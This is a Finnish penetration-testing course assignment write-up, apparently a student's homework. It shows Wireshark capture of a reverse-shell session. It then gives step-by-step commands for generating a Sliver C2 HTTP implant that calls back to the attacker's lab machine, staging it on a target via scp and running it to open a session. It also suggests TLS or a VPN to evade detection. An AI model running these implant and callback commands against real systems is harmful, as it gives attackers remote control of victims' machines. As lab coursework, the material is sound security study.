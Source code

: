 ### Tunkeutumistestaus ICI005AS3A-3005

## Abdirahman Mire

# H6 Simpukoita

### Työympäristö:

Käyttöjärjestelmä: Windows 11 Pro 64-bit

CPU: Intel Core i7-12700KF - 4 cores in use

RAM: 6 GB DDR4

Disk: 80gb

Virtuaalikone: VMware, Kali Linux


## A) Snif Venom

Jatkoin siitä mihin jäin H5 tehtävän G kohdassa. 

Avasin Wireshark:n ja alotin yhteyden 

kuva 1

aloitin antamalla ls komennon ja Wireshark antoi seuraavan takaisin: 

kuva 2

tämä näyttää että lähde ip on 192.168.20.128 ja kohde ip on 192.168.20.129

lähde portti on 4444 ja kohde portti 59893

Tunnistmisen voi vaikeuttaa esim TLS yhteyttä käyttäen.Vpn myös voisi piilottaa todelliset lähde ja kohde ip:t

B) Sliver Http 

`sudo apt install sliver`

`sliver server`

kuva 3


`generate --http http://192.168.20.128:8080 --os linux --arch amd64 --format elf --save /tmp/sliver-http`

- `generate` – Sliverin komento, jolla luodaan payload.

- `--http http://192.168.20.128:8080` – Määrittää, että payload käyttää HTTP-protokollaa ja yhdistää hyökkääjän koneelle.

- `--os linux` – Payloadin kohdekäyttöjärjestelmä on Linux.

- `--arch amd64` – Kohdeprosessoriarkkitehtuuri on 64-bittinen (x86_64).

- `--format elf` – Payload luodaan ELF-tiedostona.

- `--save /tmp/sliver-http` – Tallentaa luodun payloadin paikallisesti polkuun /tmp/sliver-http

kuva 4

käynnistin listnerin ja siirsin binäärin kohdekoneelle: 

`http --lhost 192.168.20.128 --lport 8080`

kuva 5
siirto 

`scp -o HostKeyAlgorithms=+ssh-rsa /tmp/sliver-http msfadmin@192.168.20.129:/tmp/`

kuva6

Ajoin binäärin kohteessa: 

`chmod +x /tmp/sliver-http`

`/tmp/sliver-http`

kuva 7

Tarkistin sessiot sliverissä:

`sessions`

kuva8

## C) Sliver Http yhteyden analyysi





